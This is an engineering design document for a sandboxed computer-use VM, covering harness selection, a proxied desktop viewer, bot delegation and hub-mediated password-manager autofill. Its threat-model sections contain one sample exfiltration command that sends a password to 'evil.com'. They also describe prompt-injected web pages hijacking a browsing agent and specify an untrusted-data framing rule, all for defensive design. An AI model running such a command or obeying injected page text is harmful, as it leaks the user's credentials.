


# Computer-Use Sandbox Integration Design (`cu-sandbox` ↔ `pi-dish`)

**Status:** Approved decisions (`rv_2434e9cb5312abe2`, 2026-11-24); Slice 0 preflight verified, Slice 1 guest side (`cu-broker.service`, `omp`, `backend.sock` split) deployed via `fleet-config`, and Slice 1 `pi-dish` side (viewer proxy, broker client, Desktop viewer pane) implemented on branch `feat/cu-viewer`. Supersedes the open integration items in [`TASKS/computer-use-host.md`](computer-use-host.md) and fills in the computer-use host deferred from [`TASKS/bots.md`](bots.md) and [`TASKS/orchestrator/round2-brief.md`](orchestrator/round2-brief.md).

> **User Decisions (`rv_2434e9cb5312abe2`) — binding overrides on earlier proposal text:**
> 1. **`pi.local` block: NO.** Do not change `aeor` Caddy or add a front-door host check on `beelink`.
> 2. **Guest harness: `omp` in the guest** (not an `opencode` ACP harness). `cu-sandbox` runs `omp` like any other `pi-dish` host (native ARM64 binary via `omp.sh/install --binary`).
> 3. **Model key for the guest:** Jacob's **personal** key (not a new dedicated key, and not `anthropic-api`, which is out of credit). `cu-sandbox` must NOT become an `omp` auth-broker client and must not receive the broker token, fleet keys, or Tailscale. Key choice & delivery are pending final sign-off before installation.
> 4. **Viewer:** Proxy `cua-spacesd` (fall back to `x11vnc` + vendored `noVNC` only if proxying breaks). No extra viewer PIN for now.
> 5. **Vault fill:** Hub-mediated from `beelink` (later slice, Slice 3).
> 6. **UID split:** Later (Slice 4b), with `cu-broker` (`control.sock` / `agent.sock`) and `cua-driver` (`backend.sock`) separated from day 1.
> 7. **First account to sign in:** Shef (later slice).

---

## 0. Baseline: What Exists Today

Verified against `fleet-config` (`8ed5d2b`, `3bee176`), `TASKS/computer-use-host.md`, `TASKS/vault-approvals.md`, and the live `beelink` hub:

- **VM & network boundary (`rpi5-openclaw` → `cu-sandbox`):** Debian 13 ARM64 KVM guest (`3 vCPU`, `5.5 GiB` RAM, `40 GiB` OS qcow2, `20 GiB` `/srv/profile` qcow2 backed up nightly to `aeor:/mnt/user/Backups/cu-sandbox/`). `inet cu_guard` restricts guest egress to the public IPv4 Internet only (RFC1918, `100.64.0.0/10` tailnet, loopback, link-local, multicast, and IPv6 ULA/link-local are rejected). Ingress is fail-closed DNAT: TCP `2222` (`eth0`/`tailscale0` → guest SSH, admin keys only — `beelink` has no SSH key to `cu-sandbox`) and TCP `3333` (`tailscale0` only → guest `pi-dish` on `10.203.0.10:3333`). Port `3211` is not DNATed.
- **Guest desktop & CUA (`cu_guest`):** `cu-xvfb` (`:1`, 1440×900), `cu-desktop` (XFCE, no screen locker), `cu-chrome` (official Google Chrome ARM64 on `/srv/profile/chrome`, Chrome Sync off), `cua-driver.service` (`0.61.3`, `--grant existing-profile`, Unix socket `~/.cache/cua-driver/cua-driver.sock`), and `cua-spacesd.service` (`0.17.7`, `127.0.0.1:3211`, `CUA_ENV_NO_DRIVER=true`, root token in `~/.config/cua/token`, serving `/viewer/`, gRPC-Web `/cua.env.v1.*`, and WebSocket `/media?ticket=...`). `/usr/local/bin/cu-viewer-ticket` mints scoped viewer tickets (`VIEW_ONLY=1` or `ALLOW_ACTIVATION=3`).
- **Guest agent & `pi-dish`:** `opencode` `1.19.6` (`opencode-go/gemini-4-argon`, key in `~/.config/opencode/opencode-go.key` — currently Jacob's personal key from `framework`), wired to `/usr/local/bin/cua-driver-mcp` (adds Cua Driver's `structuredContent` as text because opencode drops it). `pi-dish` runs on `10.203.0.10:3333` and is registered on `beelink` as direct remote `cu-sandbox` (`reachable: true`). Because the guest has no `pi`, `omp`, `prime`, or `agy`, `cu-sandbox` currently exposes zero managed harnesses and only its web terminal works.
- **Hub (`beelink`) front doors & vault:**
  - `beelink` runs `pi-dish` on its tailnet IP:3333 with **no `PI_DISH_TOKEN`**.
  - Public HTTPS (`dish.perfectlyfried.dev`, `dish.yarwood.dev`) enters through `beelink`'s `cloudflared` tunnel behind Cloudflare Access (`dish-users` policy, Google IdP, exact email `jyarwood@gmail.com`).
  - Trusted-LAN HTTP (`http://pi.local`) enters through `aeor`'s Caddy (`aeor/local-sites/Caddyfile`) proxying `beelink.taild69387.ts.net:3333` with **no login**.
  - `pi-dish-vault-listener` (Rust, `vault-listener/`, `ap-client` `0.11.0`) runs in `pi-dish:vault` on `beelink`, holds the unlocked `bw` session in memory, talks to `beelink` `pi-dish` over loopback `/api/vault/bridge/*`, and serves E2E Noise connections via Bitwarden's public relay `wss://ap.lesspassword.dev`. `beelink` `pi-dish` **never sees secrets**; it records approval decisions and pushes cards to Jacob's phone.

---

## 1. End-to-End Architecture Overview



### Core Invariants Preserved

1. **The boundary stays around the agent, not just Chrome.** Untrusted page content, model turns, downloads, and light data scripts stay inside `cu-sandbox`.
2. **Zero new DNAT ports and zero firewall holes.** Everything flows over the existing `tailscale0:3333 → 10.203.0.10:3333` path (`cua-spacesd` stays on `127.0.0.1:3211`, `cu-broker` stays on `0600` Unix sockets `control.sock` and `agent.sock`, and `cua-driver` stays on `0600` `backend.sock`).
3. **Guest holds no fleet keys, no Tailscale, no `omp-auth-broker` token, no ChatGPT/Anthropic OAuth, and (under the chosen hub-mediated vault path) no Bitwarden/`aac` pairing key.**
4. **`beelink`'s `pi-dish` server never holds plaintext secrets in its heap.**
5. **One seat, enforced mechanically at `cu-broker` in front of `cua-driver`'s `backend.sock`**, not merely advised in `pi-dish`.

---

## 2. Question 1: How `cu-sandbox` Fits Into `pi-dish`

### 2.1 Spawning Workers & Harness Choice

There are two separate decisions: **where** the agent executes, and **which harness** runs there.

| Option | Containment | Bot & `pi-dish` integration | Operational cost | Verdict |
|---|---|---|---|---|
| **A. `opencode` in guest via generalized `pi-dish` ACP relay (`opencode acp`)** | Strong: agent + downloads + shell live inside `cu-sandbox` | Requires building a new ACP harness in `pi-dish` | Higher `pi-dish` work | **Not chosen (`rv_2434e9cb5312abe2`)** |
| **B. `omp` in guest with personal standalone API key + Cua Driver MCP** | Strong: same VM boundary (NO `omp-auth-broker`, NO broker token, NO fleet keys, NO Tailscale) | **Full immediately** (`pi-dish-bridge-omp` already exists and is linked; `~/.omp/agent/mcp.json` wired to `/usr/local/bin/cua-driver-mcp`) | Low: prebuilt `omp-linux-arm64` binary (243 MiB on disk, ~312 MiB peak RSS; 32 GiB disk / 4.3 GiB RAM available) | **Selected (`rv_2434e9cb5312abe2`)** |
| **C. `omp`/`pi` on a controller (`beelink`/`desktop`/`framework`) driving guest MCP remotely** | **Broken**: prompt-injected webpage runs inside a trusted host holding fleet SSH/root-equivalent tools + Tailscale | Works with existing harnesses, requires exposing `cua-driver` over TCP + new DNAT + remote file sync for downloads | High security risk; worse latency; breaks `~/work` local processing | **Reject** |

**Why Option C is rejected:** Indirect prompt injection against browsing agents remains >25% ASR (and >80% adaptive). Running the model loop on `beelink`, `desktop`, or `framework` turns a malicious email or web page into immediate fleet-host code execution, defeating the entire reason `cu-sandbox` exists. Exposing `cua-driver.sock` off-guest also creates a new authenticated RPC surface through `cu_host` while stranding downloaded files inside the VM.

**Selected approach — Option B (`omp` in guest):**

- `cu_guest` installs the prebuilt ARM64 `omp` binary (`https://omp.sh/install --binary` → `~/.local/bin/omp`, `omp 19.1.1`) without enrolling `cu-sandbox` in `agent_hosts` or `omp-auth-broker`.
- `~/.omp/agent/config.yml` disables `omp`'s built-in `browser` and `computer` tools (`browser.enabled: false`, `computer.enabled: false`) and sets `mcp.shared: false` so every `omp` session spawns its own broker-gated `/usr/local/bin/cua-driver-mcp` child with its own parent PID and session identity.
- `~/.omp/agent/mcp.json` points `"cua"` at `/usr/local/bin/cua-driver-mcp`; `~/AGENTS.md` and `~/.omp/agent/skills/cua-driver` supply the computer-use and preemption rules; `pi_dish` sets `PI_DISH_OMP_COMMAND=/home/jyarwood/.local/bin/omp` and `PI_DISH_CU_BROKER_SOCKET=/run/user/1000/cu-broker/control.sock`.
- `pi-dish` requires **no new harness** — `cu-sandbox` already advertises `omp: available: true` on `beelink`, so Slice 2 only adds broker lease acquisition/heartbeat/abort/hand-back hooks around `omp` spawns on `computerUse` hosts plus bot untrusted-data framing.
- `opencode` `1.19.6` remains installed as a secondary terminal harness wired to the same broker-gated `/usr/local/bin/cua-driver-mcp`.
- **Model key (Decision 3, pending sign-off):** Uses Jacob's personal key (not a dedicated new key, and not `anthropic-api` which is out of credit), delivered as an age-encrypted single-provider file for `cu-sandbox` only — never `omp-auth-broker.age` or a full `fleet-secrets` clone.

### 2.2 Embedded Viewer & Take-Over in `pi-dish`

#### Proxy Topology (Zero New Ports)

```text
Browser (dish.perfectlyfried.dev or beelink:3333)
  ──(HTTPS/WSS)──► beelink pi-dish (/hosts/cu-sandbox/api/cu/viewer/*)
  ──(Tailnet HTTP/1.1 + WS upgrade -> rpi5-openclaw:3333 DNAT)──► cu-sandbox pi-dish
  ──(Loopback HTTP/1.1 + WS upgrade)──► cua-spacesd (127.0.0.1:3211)
```

- **Why through `pi-dish` instead of a separate tunnel or DNAT:**
  - `cua-spacesd` stays bound to `127.0.0.1:3211`. `~/.config/cua/token` never leaves the guest (owned by `cu-broker` only).
  - Reuses the existing `beelink` Cloudflare Tunnel and `dish-users` Cloudflare Access application — **no new DNS record, no new Access app, no new `cu_vm_tailnet_ports` entry**.
  - Same-origin framing inside `dish.perfectlyfried.dev` means the browser's `CF_Authorization` cookie authenticates static viewer assets, gRPC-Web POSTs, and `/media` WebSocket upgrades automatically.

#### Wire-Protocol Details & Traps Verified in Slice 0

1. **Ticket minting:** Guest `pi-dish` never reads `~/.config/cua/token`. To open the viewer, the browser requests `POST /hosts/cu-sandbox/api/cu/viewer/ticket` (`{ mode: "view-only" }` — no lease required — or `{ mode: "interactive", leaseId, leaseToken }` — requires active `human` lease). Guest `pi-dish` calls `cu-broker` `POST /v1/viewer/ticket` (or `POST /v1/lease/takeover` which mints an interactive ticket inline) and returns the ticket fragment for the iframe URL (e.g., `/hosts/cu-sandbox/api/cu/spaces/viewer/#ticket=...`).
2. **HTTP & gRPC-Web passthrough:** `beelink`'s `src/core/relay-handlers.ts` already streams `/hosts/:name/api/*` raw (both `compression` and `jsonBody` skip `/hosts/` in `src/core/access-handlers.ts`, and `copyRelayResponseHeaders` preserves `grpc-status`/`grpc-message`). Guest `pi-dish` mounts `/api/cu/spaces/*` **before** `jsonBody` and `compression` so binary `application/grpc-web+proto` payloads pass untouched.
3. **WebSocket upgrade passthrough & `rcdp.v2` subprotocol:** `viewer.js` opens `new WebSocket(wsUrl, ["rcdp.v2"])`. Extend `src/core/relay-handlers.ts` (`PROXY_TERMINAL_PATH_RE`, line 100) to also upgrade `/hosts/:name/api/cu/spaces/*`, forwarding to guest `pi-dish`, which upgrades to `127.0.0.1:3211/*`. Verified: `DROPPED_REQUEST_HEADERS` in `src/core/remote-hosts.ts` does **not** strip `sec-websocket-protocol` or `x-cua-env-authorization`; both request and 101 response `Sec-WebSocket-Protocol` headers must be forwarded intact.
4. **Auth headers (verified clean):** `viewer.js` exclusively uses `x-cua-env-authorization: Bearer <ticket>` (never `authorization`) and `?ticket=` on `/media`, so `DROPPED_REQUEST_HEADERS.authorization` causes zero interference.
5. **Subpath-prefix support (verified native — NO path rewrite shim needed!):**
   - `cua-spacesd 0.17.7`'s `/viewer/` HTML loads relative `./viewer.js` and `./index.css`.
   - `viewer.js` computes `baseUrl` relative to `window.location` by stripping the trailing `viewer/` segment (`Lc()`), builds gRPC-Web URLs as `<baseUrl>/cua.env.v1.<Service>/<Method>`, and resolves `wsPath` (`/media?ticket=...`) relative to `baseUrl` by stripping its leading `/` (`Cc()`).
   - Mounting `cua-spacesd` under one prefix `/api/cu/spaces/*` (iframe URL `/hosts/cu-sandbox/api/cu/spaces/viewer/#ticket=...`) makes all static, gRPC-Web, and `/media` WS traffic resolve cleanly under `/hosts/cu-sandbox/api/cu/spaces/*` with zero URL rewriting!
6. **Two real proxy rewrites REQUIRED (discovered in Slice 0):**
   - **CSP `frame-ancestors` rewrite:** `cua-spacesd` responds on `/viewer/` with `Content-Security-Policy: ... frame-ancestors 'none'`. Guest `pi-dish`'s viewer proxy **must** rewrite `frame-ancestors 'none'` → `frame-ancestors 'self'` so the Desktop takeover `<iframe>` can render.
   - **Same-origin `fetch` credentials shim for Cloudflare Access:** `viewer.js` hardcodes `fetch: (i, o) => globalThis.fetch(i, { ...o, credentials: "omit" })` for gRPC-Web POSTs. Over `https://dish.perfectlyfried.dev` (behind Cloudflare Access), `credentials: "omit"` omits the `CF_Authorization` cookie even on same-origin POSTs, causing Access to intercept gRPC-Web calls with a login redirect. Guest `pi-dish` must inject an external same-origin `<script src="./cu-fetch-creds.js"></script>` before `<script type="module" ... src="./viewer.js">` in `/viewer/` HTML (external script satisfies `script-src 'self'` without relaxing CSP) that wraps `globalThis.fetch` to upgrade `credentials: "omit"` → `"same-origin"` for same-origin requests.
   - **Fallback:** If `cua-spacesd`'s viewer proves hostile to proxying or mobile touch in practice, fall back to loopback `x11vnc` + locally vendored `noVNC` (`public/vendor/novnc/`, zero CDN), reusing the same `cu-broker` lease gate.
7. **Cloudflare Tunnel idle timeout:** Cloudflare drops idle HTTP requests after 100 s. Active video frames/pings keep the `/media` WebSocket alive; guest proxy sends WebSocket `ping` every 30 s as backstop.

#### Authentication & `pi.local` (User Decisions 1 & 4)

- **No `pi.local` block (Decision 1):** Per `rv_2434e9cb5312abe2`, do **not** modify `aeor/local-sites/Caddyfile` and do **not** add a `pi.local` front-door host check on `beelink`.
- **No extra viewer PIN (Decision 4):** Standard `pi-dish` access (Cloudflare Access on `dish.*`, Tailnet `beelink:3333`, etc.) controls access without an additional PIN prompt for now.

#### UI Surface, Take-Over & Hand-Back

Following `CLAUDE.md`'s rule (**main-pane takeovers are the norm; modals are the exception**):

- **Main-pane takeover (`src/browser/cu-viewer.ts`, registered in `src/browser/main-pane.ts`):**
  - Entry points: (1) **"Desktop"** button on `cu-sandbox`'s card in Fleet View (`src/browser/fleet-view.ts`, gated on `capabilities.computerUse`); (2) **"Desktop"** chip/button in `#sessionChips` whenever the active session runs on a `computerUse` host.
  - On desktop viewports (≥1100 px), offer a **Split** toggle (session transcript on left, live desktop viewer on right) alongside full-pane takeover. On mobile, full-pane takeover with a 1-tap toggle back to transcript.
  - **Default mode on open is always `view-only`.** Watching never interrupts an agent or takes the lease.
- **Top control bar of the viewer:**
  - **Seat badge:** `Idle` | `Agent: <session name> (working · 4m)` | `Waiting for you` | `You have control (9m left)`.
  - **Take Over button** (visible in view-only mode):
    1. Calls `POST /hosts/cu-sandbox/api/cu/takeover` (with optional checkbox/secondary button **"Take over & detach driver"** for Google sign-in so Chrome drops its `"being controlled by automated test software"` banner!).
    2. `cu-broker` preempts any agent lease immediately, guest `pi-dish` aborts the displaced managed session, and `cu-broker` returns an interactive viewer ticket.
    3. Viewer switches iframe to the interactive ticket and begins sending a 60 s `POST /hosts/cu-sandbox/api/cu/heartbeat` while visible.
  - **Hand Back button** (visible while human holds control):
    - If an agent session was preempted: **"Hand back & resume"** (default) calls `POST /hosts/cu-sandbox/api/cu/release { handBack: true }`, swaps iframe back to `view-only`, restores a 30 s lease reservation for that session, and posts `"Human take-over complete; inspect the current screen and browser state before continuing."` to it.
    - **"Release seat"** calls `release { handBack: false }`, swaps iframe to `view-only`, and leaves the seat `idle`.

### 2.3 How Bots Request Computer-Use Work

A PA bot (e.g., `Personal` under `Chief of Staff`, or a sub-bot like `Medical`) continues to have **no shell and no file tools**; it delegates via `spawn_worker` and `sessions`:

1. **Discovery:** `sessions({ action: 'hosts' })` reports `cu-sandbox` with `capabilities: [..., "computerUse"]`. `sessions({ action: 'load', host: 'cu-sandbox' })` includes `seat: { state, holder, since, expiresAt, queueDepth }`.
2. **Dispatch:** Bot calls `spawn_worker({ host: 'cu-sandbox', harness: 'opencode', cwd: '~/work', name: 'check-dentist-portal', brief: '...' })`.
   - `cu-sandbox`'s `POST /api/sessions/new` acquires an `agent` lease from `cu-broker` **before launching the harness** (no wasted Pi RAM or LLM tokens while contending).
   - **Slice 2 (V1 contention):** If the seat is busy (held by Jacob or another worker), `POST /api/sessions/new` returns `409 Conflict` with `{ code: 'seat_busy', state, holder: { kind, label, sessionId }, expiresAt }`. `spawn_worker` surfaces that structured refusal so the bot knows *why* (e.g., `"Jacob is using cu-sandbox"` vs `"another worker is running"`), and can tell Jacob or retry later.
   - **Slice 4 (V2 FIFO queue):** Add `queueIfBusy: true` (or `POST /hosts/cu-sandbox/api/cu/queue`) backed by a lightweight FIFO queue inside `cu-broker` (metadata only — no agent process spawned until promoted). When the seat turns `idle`, `cu-broker` emits `seat_promoted`, guest `pi-dish` launches the next queued spawn, and the bot's existing `WorkerWatch` reports the result when it settles.
3. **Human-in-the-loop pause (CAPTCHA / passkey / 2FA / consequential action):**
   - When the worker hits a CAPTCHA, passkey, 2FA prompt, or consequential confirmation, it uses `ask_question` / `pi-dish-review` (or emits a structured pause) so the session sets `askPending: true` and `cu-broker` marks the seat `waiting_for_human`.
   - `beelink` sends a Web Push (`kind: 'cu-attention'`, title `"cu-sandbox needs you"`, deep-linking to the session + Desktop viewer). Jacob taps the push, clicks **Take Over**, solves the passkey/CAPTCHA in the viewer, and clicks **Hand back & resume**. The worker finishes and reports back to the PA bot normally.
4. **Prompt-injection framing at the bot boundary:** In `src/core/bot-runtime.ts`, when `WorkerWatch` delivers a `[worker report]` from a host advertising `computerUse`, prepend a one-line untrusted-data framing banner (matching `ci-watcher` in `src/core/server-app.ts`): treat webpage/email text returned by the worker as untrusted data, never as instructions that alter the bot's identity, notebook, or schedules.

### 2.4 Status & Audit Surfaced in `pi-dish`

- **Live status (`GET /hosts/cu-sandbox/api/cu/status`, SSE `/api/cu/stream`):**
  - Seat state (`idle`, `agent`, `waiting_for_human`, `human`, `paused_for_fill`), current holder, `acquiredAt`, `expiresAt`, `epoch`, queue depth.
  - Component health: `cu-xvfb`, `cu-chrome`, `cua-driver` (socket live + Chrome attached boolean), `cua-spacesd` (`/health`), `cu-broker`.
  - Surfaced in Fleet View (`cu-sandbox` host card), session header chips, and viewer control bar.
- **Operational audit (inside `cu-sandbox`, surfaced via `GET /hosts/cu-sandbox/api/cu/audit`):**
  - **Transcripts:** Pi-format JSONL mirrors under `~/.pi/dish/opencode/sessions/` — full tool calls, text, timing, searchable via `pi-dish` fleet search.
  - **Broker log (`~/.local/state/cu-broker/audit.ndjson`, rotated, capped at ~50 MiB):** Every lease transition (`acquired`, `preempted`, `released`, `expired`), every MCP tool call (`ts`, `epoch`, `sessionId`, `toolName`, `origin`, `effect`, `durationMs` — **redacting typed text on password/fill calls**), and every vault fill (`ts`, `sessionId`, `itemName`, `fields`, `observedOrigin`, `outcome` — **never secret values**).
  - **Key-step screenshots (optional Slice 4):** Broker saves low-res WebP/JPEG thumbnails on `browser_navigate` / consequential tool calls (capped at e.g. 200 MiB FIFO on the OS disk to protect the microSD card).
- **Tamper-resistant audit (outside `cu-sandbox`):**
  - Because `jyarwood` has passwordless sudo inside `cu-sandbox` today, guest logs are operational, not tamper-proof. Authoritative outside-guest records live on:
    1. **`beelink`:** Bot conversation logs (`durable.sqlite`), plus a durable `~/.local/state/pi-dish/vault-audit.ndjson` written by `pi-dish-vault-listener` on every search/request/approval/release.
    2. **`rpi5-openclaw`:** Nightly profile-disk backups to `aeor` (already live) + optional `dnsmasq` query logging on `virbr203` (records every domain `cu-sandbox` resolved; zero guest visibility or tampering surface).

---

## 3. Question 2: Bitwarden (`pi-dish-vault`) Filling Without Secret Exposure

### 3.1 How `pi-dish-vault` Actually Works Today

From reading `TASKS/vault-approvals.md`, `src/core/vault-approvals.ts`, `skills/pi-dish-vault/scripts/pi-dish-vault.ts`, `vault-listener/src/{main,envelope,vault}.rs`, and `ansible/roles/agents/vars/aac.yml`:

- `pi-dish-vault-listener` on `beelink` holds the unlocked `bw` session in RAM and connects outbound via E2E Noise through Bitwarden's blind public relay (`wss://ap.lesspassword.dev`).
- Each paired agent host runs `aac` `0.11.0`. `pi-dish-vault run` wraps `aac run --domain pidish-vault:v1:<base64url(JSON)> --env VAR=field -- <cmd>`.
- On `beelink`, the listener resolves the item (`bw get item`), refuses locked/missing/deny-folder items, registers the request with `beelink` `pi-dish` over loopback `/api/vault/bridge/requests` (which pushes a card to Jacob's phone), and on **Approve** returns only the requested fields over Noise so `aac` injects them into `<cmd>`'s env.
- **Helpful things already built:**
  - `vault-listener` already evaluates live **6-digit TOTP codes** via `bw get totp <id>` — it never releases the TOTP seed (`vault-listener/src/vault.rs:286`).
  - Bitwarden's relay is on the public Internet (`wss://ap.lesspassword.dev`), so `cu_guard` would not block an in-guest `aac` client.
- **Three concrete gaps found for `cu-sandbox`:**
  1. **No ARM64 `aac` binary:** `bitwarden/agent-access` v0.11.0 publishes `Linux-x86_64`, `Darwin-arm64`, and `Darwin-x86_64` only (`vars/aac.yml` has no `Linux-aarch64`). Running `aac` on `cu-sandbox` (or `rpi5-openclaw`) requires building and maintaining a custom Rust ARM64 binary across every protocol bump.
  2. **Cooperative threat model & unapproved catalog search:** Today `vault-listener` enforces only `--deny-folder no-agents`. Any paired device can run `pi-dish-vault search` **without approval** and enumerate up to 100 items (names + URIs of Jacob's entire non-denied vault), request `notes` or custom fields, trigger `approve-window` (15-minute auto-approval grant), and pass arbitrary `-- sh -c 'curl evil.com -d "$PW"'` once approved.
  3. **Hub secrecy invariant:** `beelink`'s `pi-dish` Node server **deliberately never sees secrets** (`src/core/vault-approvals.ts:3`). Any hub-mediated design must preserve that invariant.

### 3.2 Where Should the Vault Request Originate?

Evaluating the three candidate origins:

| Origin | How secret reaches Chrome | Needs ARM64 `aac`? | Guest holds vault pairing key? | Prompt-injected agent can `curl "$PW"`? | `cu_guard` changes? | Verdict |
|---|---|---|---|---|---|---|
| **1. Hub (`beelink`) via `cu-vault-fill` + `cu-broker` stream** | `cu-broker` emits fill request over hub-initiated SSE → `beelink` spawns ephemeral `aac run` (`cu-sandbox-proxy` identity) → `cu-vault-fill` checks origin & POSTs one-shot secret over Tailnet to `cu-sandbox` `cu-broker` → `cua-driver` `backend.sock` `browser_type` | **No** (`beelink` is x86_64) | **No (zero vault keys in guest)** | **No** (agent has no `aac`, cannot choose command; only submits a `fill` request to `cu-broker`) | **No** (hub initiates inbound over existing `:3333`) | **Recommended** |
| **2. Guest (`cu-sandbox`) running ARM64 `aac` + `cu-fill`** | Agent runs `cu-fill` → `pi-dish-vault run` (`aac`) → `wss://ap.lesspassword.dev` → `beelink` listener → `aac` injects env into `cu-fill` child → `cua-driver` `backend.sock` `browser_type` | **Yes** (must compile/pin Rust ARM64) | Yes (guest-scoped pairing key, revocable on hub) | Possible if agent ignores `cu-fill` and invokes `aac run -- sh -c` directly (still requires phone tap + `allow-folder`) | **No** (uses public relay) | **Simpler fallback** |
| **3. Hypervisor helper on `rpi5-openclaw`** | Helper runs `aac` on Pi host, pushes into guest via vsock/bridge | **Yes** (Pi 5 is ARM64) | No (but hypervisor holds vault pairing key) | No | Yes (new host↔guest IPC) | **Reject** (worst of both worlds) |

### 3.3 Recommended Design: Hub-Mediated Vault Fill (Preserving Hub Secrecy)

**Why it works cleanly without breaking `beelink` `pi-dish`'s "never sees secrets" invariant:**

1. **Per-device vault policy (`src/core/vault-approvals.ts` + `vault-listener/src/`):**
   - Configure per-device policy rules in `~/.pi/dish/vault/policies.json`, keyed under `"devices"` by each paired device's 64-character lowercase hex fingerprint (32-byte identity; `pi-dish` persists enrolled fingerprints atomically to `~/.pi/dish/vault/enrolled.json` `0600` on every valid load so a missing or malformed `policies.json` fails closed for enrolled devices without breaking unlisted legacy devices):
     ```json
     {
       "devices": {
         "0123456789abcdef0123456789abcdef0123456789abcdef0123456789abcdef": {
           "name": "cu-sandbox-proxy",
           "allowFolder": "cu-sandbox",
           "allowFolderId": "00000000-0000-4000-8000-000000000001",
           "allowedFields": ["username", "password", "totp", "uri"],
           "allowCreate": false,
           "allowWindow": false,
           "requireOriginMatch": true
         }
       }
     }
     ```
   - **Listener bridge metadata:** `vault-listener` forwards `itemId`, `folderId`, `folder` (exact untrimmed Bitwarden folder name, when bridge-valid), `origin`, and `itemUris` (up to 64 stored login URIs) on `POST /api/vault/bridge/requests` for `release` requests. Older listeners that omit them are refused before any push (fail closed) for restricted devices governed by `allowFolderId`/`allowFolder` or `requireOriginMatch`. When `allowFolderId` is set in policy, enforcement matches `folderId` strictly and `folder` is display-only; otherwise `allowFolder` compares exact folder names without trimming.
   - **Allow-list folder (`allowFolder` / `allowFolderId`):** Today, the hub (`src/core/vault-approvals.ts`) refuses releases outside the configured folder before any push. Catalog filtering in `vault-listener` (`search`, `check`, and `prepare` hiding items outside `cu-sandbox` to eliminate unapproved catalog enumeration) comes later and is not built yet.
   - **No 15-minute window (`allowWindow: false`):** Enforced server-side in `src/core/vault-approvals.ts` (grants bypassed; `approve-window` hidden and refused with `400`, and full policy re-evaluated at approval time), guaranteeing a **fresh per-use phone tap** for every fill.
   - **Verified origin on the approval card (envelope `"origin"` field):** The `pidish-vault:v1:` envelope accepts an optional `"origin"` field: ≤256 bytes, single-line (no control characters), and a bare `http(s)://host[:port]` origin (no path, query, fragment, `@`, or `*`). Treat `"origin"` as a **requester-supplied claim only** — the listener cannot verify the caller's tab, so in the `cu-sandbox` flow its trustworthiness comes from the hub-side fill helper populating it from `cu-broker`'s observed tab URL rather than model input. `pi-dish` checks the claimed `origin` against the item's stored `https:` `itemUris` (`originMatch`: `match` | `mismatch` | `no-origin`) and displays it on the push and approval card, e.g.:
     `cu-sandbox wants "Acme Portal" (username, password) on https://portal.acme.com [origin matched] — sign in to check appointment`.
   - On `beelink`, pair a dedicated `aac` identity named `cu-sandbox-proxy` stored in an isolated `XDG_CONFIG_HOME=~/.pi/dish/cu-aac` (`0700`), completely separate from `beelink`'s own `aac` pairing.

2. **Exact fill flow (secret never enters agent context, transcript, argv, or `pi-dish` Node heap):**
   1. **Discovery:** The agent in `cu-sandbox` calls MCP tool `vault_search(query)` (exposed by `cua-driver-mcp` / `cu-broker`) → `cu-broker` forwards over the hub-initiated control stream → `beelink` runs `XDG_CONFIG_HOME=~/.pi/dish/cu-aac aac connect --domain pidish-vault:search:...` → returns metadata (ids, names, URIs, field kinds) for **`cu-sandbox` folder items only**.
   2. **Fill request:** On a login page, the agent locates the target element ref(s) from `semantic_v2` snapshot and calls MCP tool:
      `vault_fill({ item, fields: [{ field: "username", ref: "e12" }, { field: "password", ref: "e15" }], submit: true, reason: "Sign in to Acme Portal" })`
      *(or separate TOTP call `{ field: "totp", ref: "e21", submit: true }`).*
   3. **Broker verification & pause:** `cu-broker`:
      - Verifies the calling `sessionId` currently owns the active `agent` lease.
      - Queries `cua-driver` directly (`get_browser_state`) to read the **real, broker-observed tab URL & origin** (`observedOrigin`, `targetId`, `tabId`) — never trusting an origin claimed by the model!
      - Generates a one-time random 256-bit `fillNonce` (valid for the request lifetime, bound to `(requestId, epoch, observedOrigin, targetId, tabId)`).
      - Emits a `fill_request` event (with `requestId`, `fillNonce`, `item`, `fields`, `observedOrigin`, `reason`, `session`) to `beelink` over the already-open hub-initiated SSE stream (`GET /hosts/cu-sandbox/api/cu/events`).
   4. **Hub approval & ephemeral injection (`beelink`):**
      - `beelink`'s `pi-dish` spawns a short-lived helper `cu-vault-fill` wrapped in `XDG_CONFIG_HOME=~/.pi/dish/cu-aac aac --output json run --domain <envelope> --env CU_V_USERNAME=username --env CU_V_PASSWORD=password --env CU_V_URI=uri -- node .../cu-vault-fill.js`.
      - **`beelink`'s `pi-dish` Node process never sees the values.**
      - `vault-listener` enforces `allowFolder: "cu-sandbox"`, checks `observedOrigin` against the item's Bitwarden URIs (refusing before approval if the item has URIs and **none** match `observedOrigin` — blocking cross-site phishing fills!), and triggers the normal `pi-dish` phone push + card (`Approve` / `Deny` only, no `Approve 15m`).
      - On Jacob's tap, `aac` injects the approved field(s) into `cu-vault-fill`'s environment.
   5. **One-shot delivery & browser fill:**
